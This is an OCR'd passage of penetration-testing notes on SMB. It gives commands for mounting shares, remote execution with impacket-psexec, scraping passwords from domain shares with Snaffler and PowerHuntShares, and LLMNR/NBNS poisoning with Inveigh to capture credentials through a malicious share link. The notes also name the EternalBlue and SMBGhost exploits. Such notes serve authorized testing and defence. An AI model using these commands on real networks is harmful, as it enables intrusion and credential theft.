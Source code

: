 - `mount`
   ```bash
    sudo mkdir /tmp/share
    sudo mount -t cifs -o username=[],password=[],domain=. //192.168.220.129/share /tmp/share
    ```

- `impacket`
  ```bash
    impacket-psexec [USER]:[PASS]@[IP]
    ```

#### Windows
  - cmd
    ```cmd
    net use n: \\192.168.220.129\Share /user:user pass
	copy [SRC_FILE] \\[HOST]\[SHARE]\[OUT_FILE
    ```

- `Powershell`

  ```powershell
    # Display share
    Get-ChildItem \\192.168.220.129\share\
    
    # Connect with Anonymous
    New-PSDrive -Name "N" -Root "\\192.168.220.129\share" -PSProvider "FileSystem"
    
    # Connect with credentials
    $username = 'plaintext'
    $password = 'Password123'
    $secpassword = ConvertTo-SecureString $password -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
    New-PSDrive -Name "N" -Root "\\192.168.220.129\share" -PSProvider "FileSystem" -Credential $cred
    ```
#### AD
1. Find the shares:
   ```powershell
   Find-DomainShare -CheckShareAccess
	```
2. Scrape the passwords in multiple shares with [Snaffler](https://github.com/SnaffCon/Snaffler):
	- All shares: `Snaffler.exe -s -d [DOMAIN] -o snaffler.log -v data`
	- one share: `Snaffler.exe -s -i \\[HOST]\[SHARE]`
	- [PowerHunt](https://github.com/NetSPI/PowerHuntShares): `Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public` 
### Exploit

- **EternalBlue:** anything that uses SMBv1 is at risk

- **SMBGHOST**: SMB v3.1.1 RCE
  It is an [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow) vulnerability in a function of an SMB driver that allows system commands to be overwritten while accessing memory. 

- **LLMNR**

  1. Check if there are logged on users:
     ```bash
	   nxc smb [IP] --loggedon-users
	   ```
  2. Open malicious SMB share with `respond()` or on Windows with [Inveigh](https://github.com/Kevin-Robertson/Inveigh): `Invoke-Inveigh -NBNS Y -mDNS Y -FileOutput Y -SMB Y`

  3. Find a way for users to open the malicious share link: `\\[RESPONDER_IP]\x`

   ```